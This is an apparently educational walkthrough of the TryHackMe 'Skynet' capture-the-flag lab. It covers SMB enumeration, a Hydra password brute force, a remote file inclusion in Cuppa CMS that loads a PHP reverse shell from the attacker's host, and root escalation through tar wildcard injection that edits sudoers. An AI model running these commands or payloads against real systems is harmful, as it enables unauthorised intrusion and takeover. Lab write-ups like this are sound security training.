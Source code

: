 # Skynet: The Ultimate Terminator CTF Guide 🤖

Terminator? I don't even know her! (Enter 90's laugh track here). No but seriously, the [Skynet Try Hack Me CTF](https://tryhackme.com/room/skynet) was so much fun and it was challenging, and so I had to write a write-up on it! When you're ready, put up your imaginary Terminator posters, and let's "get back" to it! 😆

![Skynet CTF](https://media.giphy.com/media/C3DJ5zE2l2VUc/giphy.gif)

Just a quick note before we start. If you run the IP address of your given machine in the browser, you are met with a "search engine" that does not work. I just wanted to get it out of the way before we start, because this page is useless and I don't want to leave you wondering.
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/l9akjb0rjtco6hjlt01g.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/n55688hushs7f69tqxq7.png)

---

## What is Miles password for his emails?
Before we get _crackalacking_ at miles' emails, we need to do some basic enumeration. Let's start with an nmap scan to see what services are running on our open ports. Let's take note of our Samba smbd workgroup that is running, as this means we can exploit it via [smbclient](https://bestestredteam.com/2019/03/15/using-smbclient-to-enumerate-shares/)!

`nmap -sV -Pn <your machine IP>`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/nse2gm6gg2fc59rgrdz7.png)

Let's go ahead and scan for workgroup shares using smbclient. 
`smbclient -L \\\\<your machine IP>` 
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/gftn3euw0ktccfzh6x9w.png)

We can identify two important shares: milesdyson and anonymous. When we try to log in with milesdyson without a password/username we get an access denies status, yet, we can log in to anonymous this way.
`smbclient //10.10.58.198/anonymous -U " "%" "`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/wkyjagc3bzum3r0o56wo.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/m7zy8j9cmpc73632no0b.png)

When we read the `attention.txt` file from anonymous's share we can see that all users had to change their passwords. When we read the `logs` we can see that it contains all the changed passwords! (Only log1.txt contains any data. Log2 and 3 have no data).
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/4laul80a0d3c1149m4h7.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/adh3w49ku0kkusn31i2p.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/kg0084x49lmhiqwn3ptf.png)

Copy the data from logs1.txt into a .txt file on your Desktop, or download it from smb and copy it. Then create a file named `users.txt` in the same directory as your `log1.txt` and insert one value into it: "Miles".
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/4gwygy29yh9h9s38pc7c.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/lccn2n4yemxxea8u3gh5.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/c1anli6f6rlmntsqp5uq.png)
   
Now we can use Hydra to brute force Miles's password.
`
export ip=<your machine IP>
hydra -L users.txt -P log1.txt &ip smb -V -f
` 
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/0jsavb7pt7jdb7zert67.png)

Tada! We have our password!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/fgdjxluisgoy5i0l2tkg.png)
 
---

## What is the hidden directory?
Okay, before we continue, let's run a gobuster scan to see which directories we can navigate to.
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small-txt -u <your machine IP> -t 50`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/l2csly06aftrbhsg9y9k.png)

From there on, we can navigate to /administrator in our browser. We are met with a SquirrelMain Login page. 
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/cntenend21ublqs3jvp8.png)

Let's see if we can log in with the credentials username: `milesdyson`, password: `cyborg007haloterminator`. Success!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/q1634i3d740jkfi2ra03.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ix8nuer1ym8218un6ddw.png)

If we read the seranakogan@skynet emails, we realize it's useless binary code. The important email is from skynet@skynet as it contains Miles' smbclient password!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/u9b54waufyvw8niswfs0.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/odz5q4cpeahr1b1fqyt6.png)

Let's head back to our terminal and try to log in this time with milesdyson's username and the password from the email above.
`smbclient //<your machine IP>/milesdyson -U "milesdyson`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/bvfbh8xq84q93xfpuja0.png)

We now have access to his smb! We are hacker masters. Let's see what is in his `/notes` directory.
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/xupclxtrcfgm20x94kfp.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/3ulv6g3i7azonhv1tm7c.png)

When we read the contents of the `/important.txt` file, we get our hidden directory!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/mo8j869ugthwmz2c95xw.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qdqq02way5mg86up4jzg.png)

---

## What is the vulnerability called when you can include a remote file for malicious purposes?
[Remote file inclusion (RFI)](https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts. The perpetrator’s goal is to exploit the referencing function in an application to upload malware (e.g., backdoor shells) from a remote URL located within a different domain.  
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/y84n8x8oc0pqx16urks6.png)

---

## What is the user flag? 
Okay, now the hard work starts. First things first, let's see what is in our `/45kra24zxs28v3yd` hidden directory.
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/y9vhgbtefbrccxlknv55.png)

It's just a personal page. Maybe gobuster can tell us more.
`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small-txt -u http://<your machine IP>/45kra24zxs28v3yd -t 50` 
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/x18hz4q48v3mxpdfqhyl.png)

Let's now go to our `/45kra24zxs28v3yd/administrator` directory. We are met with a Cuppa CMS page (which cannot be cracked with sqli attacks such as 'admin OR 1=1--;!)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/hr01m24xnlrvly1pfgoo.png)

With some digging, we can see that the Cuppa CMS system is subject to remote file inclusion attacks, which means that we can upload a reverse shell to gain access to user data!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/b4bq3twf5ynwitbzn1kz.png) 
 
Okay, let's get our reverse shell going. To make it easy for you, you can just open up your terminal and run the following command to pull one from [Pentestmonkey's GitHub](https://github.com/pentestmonkey/php-reverse-shell).
`wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ksztc85jb0enhk461ctx.png)

With our reverse-shell downloaded, we need to change two values: our IP address and our port. I keep my port at the default 1234, because I don't care. Change the IP address in your php-reverse-shell.php script to the IP address of your OPENVPN/attacker machine IP, not your lab's target machine. I did this via [vim](https://www.designbombs.com/mastering-vim-commands-the-ultimate-list/), but you can do it manually by naviagting to it if you want.
`vim php-reverse-shell.php`

![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/p3qws6wevqnjf1nvmhey.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qo76pl4fc1t1yfw3eguq.png)

Next up, start up a netcat listener on the port defined above (in my case, 1234).
`sudo nc -nlvp 1234`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/j9zzhqh1wlwbftosu0eh.png)

Then, start up a python server which will serve our reverse shell.
`sudo python3 -m http.server`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/bwhb90l4tl9ftkk8ml5r.png)

Now, go back to your browser and enter the following URL (replacing the IP's with your values).
`http://<machine IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<OPENVPN IP>:8000/php-reverse-shell.php`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/pgt5hng5ut9rb0p0mx5k.png)
 
Notice the changes on your `python server`:
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/j8xwbkolocq3m68ibttr.png)
And your `netcat listener`:
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/tlryjyotoz2drgtyyezp.png)

Our reverse shell worked! We now have access! Now we can just navigate to `user.txt` and read our user flag!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ctg11pp6mu4vifej5bvo.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/izwkb1qdv95mkc8idkjf.png)

---

## What is the root flag?   
We still only have www-data access. We need to find a way to get root access. Let's navigate to `/home/milesdyson/backups` and see what we can find.
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/uwuagjmguue426hy6vvq.png)

This backup file gets a shell, navigates to the /var/www/html directory and creates a backup of everything in the directory. Read more on how we can exploit this on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), but for now, I'm just going to show you.

*Side note: We can also find the same information as above by running the `cat /etc/crontab` command. 
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/529xn9ksiumep65693p4.png)

To exploit our tar, do the following:
`cd /var/www/html`
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/jgdxr8dnl4756d6aobbx.png)

1. `echo 'echo "www-data ALL=(root) NOPASSWD; ALL" >> etc/sudoers' > sudo.sh`
2. `touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh`
3. `touch "/var/www/html/--checkpoint=1`
4. `sudo su`

![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/v2acfk1lnuf3a4hfry65.png)

We now have root access. We can simply now cd into `/root` and get our flag!
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qk2ult9o4wye15j9i0pj.png)
![Skynet CTF](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/7bp4txycym95awozfgkb.png)

---

## Conclusion
Congratulations! You have successfully completed the Skynet CTF. I hope this was easy enough to follow, and that you had fun along the way. Until next time, happy hacking! 😊



  


  
 
 
 
 
 
 
 


  
 



 


